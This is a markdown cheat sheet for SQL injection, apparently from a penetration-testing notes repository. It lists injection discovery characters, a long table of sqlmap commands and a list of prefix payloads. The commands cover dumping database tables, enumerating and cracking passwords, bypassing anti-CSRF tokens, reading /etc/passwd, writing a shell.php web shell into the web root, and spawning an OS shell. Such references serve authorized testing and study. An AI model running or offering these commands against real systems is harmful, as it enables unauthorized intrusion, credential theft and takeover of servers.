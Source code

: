 # SQL injectin
![typesofSQLi](/images/types_of_sqli.jpg)



## SQLi Discovery

| Payload | 	URL Encoded|
|:--------|:---------------|
|'	|%27|
|"	|%22|
|#	|%23|
|;	|%3B|
|)	|%29|


## SQLmap

|Command|	Description|
|:------|:-------------|
|`sqlmap -h`|	View the basic help menu|
|`sqlmap -hh`|	View the advanced help menu|
|`sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`|	Run SQLMap without asking for user input|
|`sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`|	SQLMap with POST request|
|`sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`|	POST request specifying an injection point with an asterisk|
|`sqlmap -r req.txt`|	Passing an HTTP request file to SQLMap|
|`sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`|	Specifying a cookie header|
|`sqlmap -u www.target.com --data='id=1' --method PUT`|	Specifying a PUT request|
|`sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`|	Store traffic to an output file|
|`sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`|	Specify verbosity level|
|`sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`|	Specifying a prefix or suffix|
|`sqlmap -u www.example.com/?id=1 -v 3 --level=5`|	Specifying the level and risk|
|`sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`|	Basic DB enumeration|
|`sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`|	Table enumeration|
|`sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`|	Table/row enumeration|
|`sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"`|	Conditional enumeration|
|`sqlmap -u "http://www.example.com/?id=1" --schema`|	Database schema enumeration|
|`sqlmap -u "http://www.example.com/?id=1" --search -T user`|	Searching for data|
|`sqlmap -u "http://www.example.com/?id=1" --passwords --batch`|	Password enumeration and cracking|
|`sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"`|	Anti-CSRF token bypass|
|`sqlmap --list-tampers`|	List all tamper scripts|
|`sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`|	Check for DBA privileges|
|`sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`|	Reading a local file|
|`sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`|	Writing a file|
|`sqlmap -u "http://www.example.com/?id=1" --os-shell`|	Spawning an OS shell|

- **Possibilities of prefix**
```
'
"
`
#
-- 
;
)
''
')
'')
''))
');
'');
''));
""
")
"")
"))
""))
");
"");
"));
""));
`)
``)
`))
``))
`);
``);
`));
``));
'"
'");
'"));
"'
"');
"'));
"`
"`);
"`));
'`
'`);
'`));
`"
`");
`"));
`'
`');
`'));
\'
\"
```

## Resources
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)

- [Portswigger cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)




